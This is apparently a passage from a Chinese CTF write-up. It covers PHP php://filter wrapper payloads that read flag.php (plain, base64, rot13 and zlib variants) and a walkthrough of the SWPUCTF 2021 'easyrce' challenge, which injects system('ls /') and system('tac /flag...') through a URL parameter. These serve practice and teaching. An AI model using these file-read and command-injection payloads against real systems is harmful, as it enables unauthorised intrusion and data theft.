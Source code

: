 至于为什么要使用base64编码，ChatGPT给出了这样的回答：

> 为了将目标文件内容以文本形式传输给攻击者，攻击者通常会将目标文件内容进行编码，例如使用Base64编码。这是因为HTTP协议只能传输文本数据，对于二进制数据，如图片、音频和视频等，需要进行编码才能在HTTP请求和响应中传输。
>
> 在这种情况下，攻击者可以将目标文件内容进行Base64编码，然后将编码后的结果作为HTTP请求或响应的一部分，从而实现传输。在接收到响应后，攻击者可以将编码后的结果解码，从而获得原始的二进制数据，即目标文件的内容。

(我们读取的是flag.php，而并非.txt文件)

引用一下[头秃的bug](https://blog.csdn.net/L2329794714)师傅在CSDN的笔记：

![image-20230228204934173](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230228204934173.png)

> **过滤器的分类（及常见过滤器）：**
>
> **string filter(字符过滤器)**
> **string.rot13  (对字符串执行 ROT13 转换)**
>                     例：php://filter/string.rot13/resource=flag.php
> **string.toupper (转大写)**
>                     例：php://filter/string.toupper/resource=flag.php
> **string.tolower (转小写)**
> **string.strip_tags (去除 HTML 和 PHP 标记，尝试返回给定的字符串 str 去除空字符、HTML 和 PHP 标记后的结果)**
>                     例：php://filter/string.strip_tags/resource=flag.php
> **conversion filter (转换过滤器)**
>             convert.base64-encode & convert.base64-decode (base64加密 base64解密)
>                     例：php://filter/convert.base64-encode/resource=flag.php
>             convert.quoted-printable-encode & convert.quoted-printable-decode(在字符串后加=0A,及恢复)
> **compression filter(压缩过滤)**
>             zlib.deflate & zlib.inflate(压缩 解压)
>                     例：php://filter/zlib.deflate/resource=flag.php                                                       php://filter/zlib.inflate/resource=flag.php
>             bzip2.compress & bzip2.decompress(zip 压缩 解压)
> **encryption filter(加密过滤器)** 

摘自：https://blog.csdn.net/L2329794714/article/details/121288668

### [SWPUCTF 2021 新生赛]easyrce

灰常简单的rce，
<img src="https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230228205604826.png" alt="image-20230228205604826" style="zoom:67%;" />

在phpinfo中未发现flag，随后构造：

```
http://1.14.71.254:28678/?url=system("ls /);
```

![image-20230228205746590](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230228205746590.png)

```
http://1.14.71.254:28678/?url=system(%22tac%20/flllllaaaaaaggggggg%22);
```

得到flag
